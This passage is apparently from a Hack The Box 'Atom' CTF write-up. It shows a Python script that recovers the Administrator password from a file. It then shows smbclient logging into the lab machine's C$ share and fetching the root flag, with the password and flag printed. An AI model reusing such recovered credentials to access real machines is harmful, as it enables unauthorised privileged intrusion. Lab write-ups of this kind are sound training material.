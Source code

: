 And by running the python we get the ```Administrator``` password:
```console
┌─[evyatar@parrot]─[/hackthebox/Atom]
└──╼ $ python3 p3.py a.pk3 
kidvscat_admin_@123
```

Let's use ```smbclient``` (or we can use also winrm) to get the ```Administrator``` flag:
```console
┌─[evyatar@parrot]─[/hackthebox/Atom]
└──╼ $ smbclient \\\\10.10.10.237\\C$ -U Administrator
Enter WORKGROUP\Administrator's password: 
Try "help" to get a list of possible commands.
smb: \> cd \Users\Administrator\Desktop\
smb: \Users\Administrator\Desktop\> get root.txt
...
<print the root.txt file>
9aedd513cb916b3e49abaf6abccb6679
...
```

And we get the root flag ```9aedd513cb916b3e49abaf6abccb6679```.
